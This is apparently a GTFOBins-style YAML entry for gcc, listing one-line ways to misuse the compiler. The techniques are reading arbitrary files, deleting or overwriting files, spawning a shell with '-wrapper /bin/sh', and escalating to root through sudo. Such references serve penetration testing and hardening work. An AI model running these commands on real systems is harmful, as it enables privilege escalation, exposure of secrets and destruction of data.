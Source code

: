```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        gcc -x c -E "$LFILE"
    - code: |
        LFILE=file_to_read
        gcc @"$LFILE"
  file-write:  # XXX this should be file-delete
    - code: |
        LFILE=file_to_delete
        gcc -xc /dev/null -o $LFILE
  shell:
    - code: gcc -wrapper /bin/sh,-s .
  sudo:
    - code: sudo gcc -wrapper /bin/sh,-s .
---
```

